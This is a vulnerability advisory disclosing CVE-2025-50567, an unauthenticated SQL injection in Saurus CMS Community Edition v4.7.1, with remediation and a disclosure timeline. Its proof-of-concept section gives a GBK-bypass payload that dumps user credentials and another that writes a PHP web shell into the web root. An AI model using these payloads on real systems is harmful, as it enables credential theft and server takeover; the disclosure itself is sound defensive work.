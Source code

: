 ## CVE-2025-50567 : Unauthenticated SQL Injection leading to Remote Code Execution in Saurus CMS Community Edition v4.7.1

**Discovered by:** [Rahul Hoysala](https://www.linkedin.com/in/rahul-hoysala/)

**CVE ID:** CVE-2025-50567

**Severity:** Critical

**Status:** Public

**Date Published:** August 15, 2025

---

## 📝 Summary

A **critical SQL injection vulnerability** was discovered in the custom **DB::prepare function**, which uses **preg_replace()** with the deprecated **/e** modifier to interpolate SQL query parameters (deprecated in PHP 5.5 and removed in PHP 7) in **Saurus CMS Community Edition v4.7.1**. This, along with unsafe parameter syntax escaping, leads to **direct evaluation of user-controlled SQL statements**, leading to **arbitrary code execution**. 

---

## ⚙️ Affected Component

- **File:** `classes/mysql.inc.php`
- **Function:** `prepare()`
- **Line:** [354](https://github.com/sauruscms/Saurus-CMS-Community-Edition/blob/master/classes/mysql.inc.php#L354)
- **Commit:** `6fffcf0`
- **Product:** Saurus CMS Community Edition v4.7.1
- **Vendor:** Saurus OÜ
- **Access Required:** None

---

## 📜 Vulnerability Details

The vulnerability lies in the funtion `prepare()`, in this particular line:
```php
$sql = preg_replace("/\?/e", '"\'".$args[++$i]."\'"', $sql, 50);
```
The `/e` modifier in `preg_replace()` evaluates the replacement string as PHP code. Additionally, the escaping implementation is unsafe, as crafted byte sequences using a multibyte charset like GBK/Big5 can leave the quote unescaped. This allows an attacker to inject and execute arbitrary SQL queries and can potentially lead to arbitrary code execution on the server. 

---

## 🎯 Impact

- Disclosure of sensitive data and PII
- Full control over database
- Vector for RCE (Remote Code Execution)

---

## ✅ Proof of Concept

```php
%BF%27 UNION SELECT null, username, password FROM users -- a
```
The multibyte sequence `%BF%27` is interpreted by MySQL as a single character in the GBK charset to break out of the intended quoting context. The `UNION SELECT` clause is then directly injected into the query, which allows for extraction of sensitive data from the `users` table. The trailing `-- a` ensures that there's a character or space to effectively 'activate' the comment. This is passed through the vulnerable `preg_replace()` call in the `prepare()` function as outlined earlier, which is passed through `$args`, which builds a full and unescaped payload that effectively executes the query and confirms the presence of SQL injection. 

Consider the following line:
```php
%BF%27 UNION SELECT "<?php system($_GET['cmd']); ?>", null, null INTO OUTFILE '/var/www/html/shell.php' -- a
```
In this case - using the GBK multibyte bypass and the unsafe argument parameterization in the `preg_replace()` function call, the attacker can write a malicious PHP payload directly into the web server's document root (commonly termed a 'web shell'). Once it is written, the attacker can access the file remotely and execute arbitrary system commands under the privileges of the web server process, confirming RCE (remote code execution). 

---

## 📊 CVSS Score

**Base Score:** 10.0 (Critical) 

**Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`

> The attack can be carried out over the network layer, satisfying `AV:N`. This requires the attacker to be able to successfully craft valid escaped SQL queries, making the attack complexity low and satisying `AC:L`. Since this attack is carried out over any endpoint that invokes the database abstraction layer, this attack requires no privileges, satisfying `PR:N`. This does not require end user interaction, satisfying `UI:N`. The attacker can obtain a webshell leading to RCE on the host OS, effectively changing the scope of the security authority from Authority A (The CMS/web app in the application layer) to Authority B (the host OS and other services running on it), satisfying `S:C`. Attackers can extract sensitive data via crafted SQL queries, effectively compromising the confidentiality and satisfying `C:H`. Attackers can inject, modify or delete database contents at will, effectively compromising the integrity and satisfying `I:H`. Attackers can execute destructive operations like dropping tables or denying services at the OS level once RCE is achieved, thus compromising the availability and satisfying `A:H`. The combination of all these factors satisfies every condition under CVSS v3.1 for a severity rating of 10.0. 

---

## 🛠️ Recommended Remediation

- Remove usage of `/e` modifier.
- Sanitize all SQL parameter input.
- Upgrade to PHP 7.0 or later.
- Remove the custom `prepare()` function.
- Use secure database abstraction layers like PDO or MySQLi.

---

## ⚡ Sample Remediation Code

Replace this:
```php
$sql = preg_replace("/\?/e", '"\'".$args[++$i]."\'"', $sql, 50);
return $sql;
```
with this:
```php
$pdo = new PDO('mysql:host=localhost;dbname=saurus', 'dbuser', 'dbpass', [
    PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
]);
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?"); //example query
$stmt->execute([$username, $password]);
$result = $stmt->fetchAll(PDO::FETCH_ASSOC);

```
In this case, the SQL string never directly concatenates user input, and the database driver handles quoting, escaping and type safety internally - thus addressing the core of the vulnerability. 

---

## ⏰ Disclosure Timeline

| Date | Event |
|--------|---------|
| April 28, 2025 | Vulnerability discovered |
| April 29, 2025 | Contacted vendor with request for CVD (no response) |
| August 14, 2025 | CVE ID reserved by MITRE |
| August 15, 2025 | Public disclosure on GitHub|

> In compliance with Sections 4.2 and 5.3 of the CVE Entry Reference Requirement rules, and after having provided a period of 108 days for an attempt at coordinated vulnerability disclosure from the vendor, this finding is being officially made public.

---

## 🔗 References

CVE-2025-50567 - [Reserved on MITRE](https://www.cve.org/CVERecord?id=CVE-2025-50567)

Saurus CMS Community Edition v4.7.1 - [Affected Component](https://github.com/sauruscms/Saurus-CMS-Community-Edition/blob/master/classes/mysql.inc.php)

---

## 👨‍💻 About The Researcher

**Rahul Hoysala** is a student and security researcher specializing in web application security and full-scope infrastructure penetration testing, with experience in coordinated vulnerability disclosure across a range of organizations and vendors.  
